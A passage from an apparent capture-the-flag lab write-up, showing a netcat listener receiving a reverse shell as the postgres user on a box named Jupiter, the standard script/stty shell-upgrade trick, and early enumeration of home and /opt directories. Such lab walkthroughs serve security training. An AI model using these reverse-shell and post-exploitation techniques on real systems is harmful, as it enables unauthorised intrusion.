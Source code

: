 On sending this, I get a shell at `nc`:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.216 51132
    bash: cannot set terminal process group (1494): Inappropriate ioctl for device
    bash: no job control in this shell
    postgres@jupiter:/var/lib/postgresql/14/main$ 
    

I’ll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    postgres@jupiter:/var/lib/postgresql/14/main$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    postgres@jupiter:/var/lib/postgresql/14/main$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    postgres@jupiter:/var/lib/postgresql/14/main$ 
    

## Shell as juno

### Enumeration

#### Filesystem

The postgres user’s home directory is in `/var/lib/postgres`, and doesn’t have
much interesting.

There are two users on the box with directories in `/home`:

    
    
    postgres@jupiter:/home$ ls
    jovian  juno
    postgres@jupiter:/home$ ls */
    ls: cannot open directory 'jovian/': Permission denied
    ls: cannot open directory 'juno/': Permission denied
    

postgres can’t access either.

There’s an interesting directory in `/opt`, but postgres can’t access it, as
it’s owned by jovian and in the science group:

    
    
    postgres@jupiter:/$ ls -l /opt/
    total 4
    drwxrwx--- 4 jovian science 4096 May  4 18:59 solar-flares
    postgres@jupiter:/$ ls opt/solar-flares/
    ls: cannot open directory 'opt/solar-flares/': Permission denied
    